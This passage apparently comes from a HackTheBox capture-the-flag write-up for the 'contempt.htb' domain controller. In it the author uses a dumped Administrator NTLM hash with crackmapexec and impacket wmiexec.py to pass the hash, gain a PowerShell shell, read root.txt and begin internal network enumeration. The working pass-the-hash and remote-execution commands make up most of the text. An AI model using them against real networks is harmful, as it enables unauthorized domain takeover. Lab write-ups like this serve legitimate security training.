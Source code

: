![](https://i.imgur.com/9uVxWQh.png)

We now have all the hashes, we can impersonate anyone we want using pass-the-hash.

![](https://i.imgur.com/mlWbgB9.jpg)


#### Getting a shell

Let's grab the most privileged user : Administrator. Since I didn't saw the WinRM port at the first time, we need to enumerate the SMB shares in order to see if we have access to `C$`.

```bash
crackmapexec smb dc01.contempt.htb -d 'contempt.htb' -u 'Administrator' -H '8845ad387f66869ab9768c8a7b08b36f' --shares
```

![](https://i.imgur.com/d5hR7ec.png)

No `C$` here, but no worries. We have the **write** permission on `NETLOGON` ! So we can use for exemple `wmiexec.py` from [impacket](https://github.com/fortra/impacket).

```bash
wmiexec.py 'contempt.htb/Administrator@dc01.contempt.htb' -hashes ':8845ad387f66869ab9768c8a7b08b36f' -dc-ip 10.129.235.160 -share NETLOGON -shell-type powershell
```

![](https://i.imgur.com/M2EQjd5.png)

```powershell
type C:\Users\Administrator\Desktop\root.txt
```

![](https://i.imgur.com/NWBbb4c.png)

Hmmm, this is not quite common. Usualy when playing HackTheBox, you first have the user.txt and then the root.txt once you've finished the box !
Since I cannot locate the user.txt on the machine, I'll ask to the admins.

![](https://i.imgur.com/aheiY42.png)

Not on the Windows filesystem ? 🤔


### User

#### Recon

Since we do not know yet where the user.txt is located, let's do some enumeration once again.

We could use crackmapexec ioxidresolver module to scan the active interfaces of the machines, maybe there is another machine in the internal network.

```bash
crackmapexec smb dc01.contempt.htb -u 'Administrator' -H '8845ad387f66869ab9768c8a7b08b36f' -M ioxidresolver
```
